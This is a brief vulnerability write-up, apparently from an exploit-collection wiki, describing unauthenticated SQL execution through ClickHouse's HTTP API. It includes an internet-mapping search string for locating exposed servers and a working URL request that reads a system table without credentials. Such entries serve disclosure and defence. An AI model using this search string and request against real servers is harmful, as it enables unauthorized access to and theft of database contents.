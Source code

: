 # ClickHouse API Database Interface Unauthorized Access Vulnerability

## Vulnerability Description

The ClickHouse API database interface has an unauthorized access vulnerability. An attacker can execute any SQL command to obtain database data.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ClickHouse</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"ClickHouse" && body="ok"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628562111049-29c2abe1-632c-4b49-8139-c320c7642949.png)

Execute SQL statements

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628562146369-a7f2b43b-64a6-4d94-b003-6df41a71af4e.png)

```php
/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628562659696-09dac222-48dc-47c6-9da8-e22203478a73.png)